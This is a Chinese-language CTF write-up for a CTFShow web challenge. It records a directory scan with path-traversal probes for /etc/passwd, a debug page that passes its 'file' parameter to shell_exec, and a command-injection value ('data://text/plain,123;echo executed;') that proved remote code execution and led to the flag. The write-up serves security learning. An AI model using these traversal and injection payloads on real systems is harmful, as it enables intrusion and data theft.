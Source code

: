 tags:: RCE

- 参考： [[CTFWEB/WP/CTFShow/web386]]
- # 施工中
	- 扫描，记录：
		- ```
		  [15:57:44] Starting: 
		  [15:57:47] 400 -  179B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
		  [16:01:54] 400 -  179B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
		  [16:02:30] 200 -   14B  - /debug/
		  [16:02:31] 301 -  169B  - /debug  ->  http://df491a5e-86a2-404d-a105-240aba66a015.challenge.ctf.show/debug/
		  [16:03:17] 301 -  169B  - /install  ->  http://df491a5e-86a2-404d-a105-240aba66a015.challenge.ctf.show/install/
		  [16:03:17] 200 -   59B  - /install/index.php?upgrade/
		  [16:03:17] 200 -   59B  - /install/
		  [16:04:13] 200 -   24B  - /page.php
		  [16:04:55] 200 -   15B  - /robots.txt
		  ```
	- 扫描发现`/debug/index.php`，其拥有GET参数`file`，可以实现^^文件读取^^
		- ~~貌似是任意^^include^^文件~~
			- 是`shell_exec('php -f '.$_GET['file']);`
		- 可能在会读取前检测文件是否存在
		- 测试：
			- `data://text/plain,123`：中文提示找不到文件
			- `data://text/plain,<?=123?>`：输出为空
			- `/proc/self/cwd/../index.php`：正常输出
			- `/proc/self/cwd/../debug/index.php`：提示`file not exist`，估计为执行出错
			- `<?=123?>`：输出为空
			- `"data://text/plain;base64," + enc_dec.base64_encode("<?=123?>")`：
				- 输出`Could not open input file: data://text/plain`
				- ????
			- `data://text/plain,123;echo executed;`：^^输出executed^^!!!!!!!
	- 所有值得注意的页面：
		- `/debug/index.php`
			- 任意文件读取
			- 会在读取前检测文件是否存在
			- 可能为`include$_GET["file"]`
		- `/install/index.php`
			- 如果检测到文件不存在则重置管理员密码
		- `/page.php`
		- `/alsckdfy/check.php`
			- 管理员登陆界面
- # WP
	- 扫描发现`/debug/index.php`，arjun扫描发现GET参数`file`
	- 测试发现`file`参数存在RCE
	- 利用RCE读取`/alsckdfy/check.php`得到flag
